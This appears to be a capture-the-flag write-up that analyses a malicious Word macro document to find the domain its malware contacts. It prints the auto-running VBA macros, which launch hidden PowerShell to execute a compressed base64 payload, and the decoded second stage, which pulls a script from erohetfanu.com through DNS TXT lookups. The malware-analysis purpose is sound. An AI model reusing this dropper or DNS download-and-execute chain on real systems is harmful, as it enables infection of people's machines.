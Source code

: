 
## Identify the Domain
> Using the Word docm file, identify the domain name that the malware communicates with.

0. I'm using LibreOffice, but you can also use `docker run --rm -it --name oletools -v $(pwd):/srv:ro jorgeandrada/oletools:latest sh` instead. Just don't run the macros. Pleae

1. Opened the document with LibreOffice, macros off. Used `Tools > Macros > Edit macros` to edit them, found these:

```VBScript
Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Private Sub Document_Open()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
Shell cmd
End Sub

Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Sub AutoOpen()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
Shell cmd
End Sub

```

2. Deobfuscated, it would look like:

```
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object;

payload = 'lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'

## iex(
  a IO.StreamReader(
    (a IO.Compression.DeflateStream(
      [IO.MemoryStream][Convert]::FromBase64String(payload),
      [IO.Compression.CompressionMode]::Decompress
    )),
    [Text.Encoding]::ASCII)
)
## .ReadToEnd()"" "

```
3. Used a [small PHP script](../scripts/decode_macro_payload.php) to decode and deflate, and obtained the following code (rewrote to be easier to read):
```VBScript
function H2A($a) {$o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o};
$f = "77616E6E61636F6F6B69652E6D696E2E707331";
$h = "";

upperLimit = ([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)
foreach ($i in 0..upperLimit)  {
  $h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings
};

decoded = $(H2A $h | Out-string)

# iex(decoded)


```

The answer to the challenge is: `erohetfanu.com`

Bonus track, what does `77616E6E61636F6F6B69652E6D696E2E707331` mean?: `wannacookie.min.ps1` :)

Maybe there's a way to get `wannacookie.ps1` ? The hash would be `77616E6E61636F6F6B69652E707331` (note I've removed `6D696E2E` which maps to `min.`)


See next document.

